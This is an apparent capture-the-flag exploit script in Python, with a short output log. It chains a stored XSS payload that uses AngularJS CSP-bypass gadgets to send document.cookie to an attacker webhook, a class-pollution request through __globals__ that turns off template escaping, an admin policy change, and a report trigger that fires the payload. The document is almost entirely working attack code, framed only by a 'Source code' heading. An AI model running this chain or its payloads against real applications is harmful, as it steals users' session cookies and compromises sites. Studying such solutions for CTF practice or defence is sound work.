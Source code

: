 ```python=


def createPost():
    data = session.post(f'{target}/create_post', data={
        "title": f"""
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js></script>
<script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js></script>
<body class="ng-app" ng-csp>
{{{{$on.curry.call().fetch("{webhook}?"+$on.curry.call().document.cookie.toString(),{{mode:"no-cors"}})}}}}
</body>
        """,
        "content": """script loader""",
        "public": 1
    })
    if data.status_code != 200:
        print("failed to create post", data.status_code, data.text)
        exit(1)
    print("payload created")


def polluteRemote():
    data = session.post(f'{target}/save_feedback', json={
        "__class__": {
            "__init__": {
                "__globals__": {
                    "TEMPLATES_ESCAPE_ALL": False,
                    # "os": {"environ": {"APP_URL": url}} # yes i can change environ
                }
            }
        }
    })
    print("pollution complete", data.text)


def disableProtection():
    data = session.post(f'{target}/admin/update-accepted-templates', json={
        'policy': 'strict'
    })
    print("protection disabled", data.text)


def activatePayload():
    data = session.get(f'{target}/api/v1/report')
    print("payload activated", data.text)


regAndLogin()
createPost()
polluteRemote()  # "http://co2v2:1337")
disableProtection()
activatePayload()

# logged in
# payload created
# pollution complete {"success":"true"}
# protection disabled {"success":"true"}
# payload activated {"status":202}
```
